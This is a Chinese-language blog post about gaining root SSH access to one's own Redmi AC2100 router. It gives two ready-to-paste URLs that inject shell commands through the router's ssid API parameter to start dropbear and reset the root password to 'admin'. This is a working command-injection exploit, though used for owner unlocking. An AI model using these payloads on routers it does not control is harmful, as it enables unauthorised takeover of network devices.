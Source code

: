 ```yaml
---
date: 2021-01-29
title: 红米 AC2100 开启 SSH 权限
tags:
  - 刷机
  - 路由器
---
```

> TL;DR [看这里](https://www.right.com.cn/forum/thread-4032490-1-1.html)，成功版本为 `2.0.23 稳定版`。


之前按照 [这篇](https://www.xiaoz.me/archives/15192) 想开启路由器的 telnet 权限。

dalao 写了一些脚本，但是遇到了很多问题，包括但不限于：
- 由于忘关火绒导致 nc 被删除，弹出 `nc.exe不是内部或外部命令，也不是可运行的程序或批处理文件。8081端口被占用，请检查`。解决方法为进入火狐的恢复区恢复文件，并添加信任，以免误删。
- 获取包的时候脚本报错，但还是提示 PPPOE 获取成功。这个问题原因为演示版本为 `1.0.14`，而新路由器被官方自动升级为了 `2.0.23`，方法已不再适用。解决方法为从 `官方救砖工具以及原厂固件备份` 文件夹中手动上传 `1.0.14` 包升级 ROM。
- 第一次失败，无法继续。解决方法为断开 WAN LAN 口相连线，然后重试。

> 简单看了一下，dalao 应该是开启了一个 http 服务器（python -m http.server），然后在反弹 shell 那几个阶段从本地服强制覆盖官方文件。~~然后之所以破解包那么大是因为居然有整个 python，，，~~

爪巴了。

突然看到 [帖子说](https://www.right.com.cn/forum/thread-4032490-1-1.html) 有 XSS  注入漏洞可以钻，试了下直接拿下了 SSH 的 root 权限：

首先注销登陆的账户，然后重新登陆，这时观察浏览器顶上的 url,会有 `stok` 的参数，这就是 token 啦。有了 token 按照帖子里的办法就办法注入了，只需要两次就行。一次开启 SSH 功能，第二次是将密码修改为 admin。第二次是可选的，但是不这样的话需要找到无序的默认密码，不方便我们后续操作。

去掉 `#` 开头的注释，把链接复制到浏览器里面，**注意把 `<STOK>` 替换为自己的。**

```bash
# enable SSH

http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# (optional) change password to `admin`
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

```

然后就可以愉快的登陆啦（密码为 `admin`）

```bash
ssh root@192.168.31.1
```

当然可以直接拿这个注入漏洞修改很多东西www，不过这样还是太麻烦了，所以直接拿到 SSH 权限上去吧。
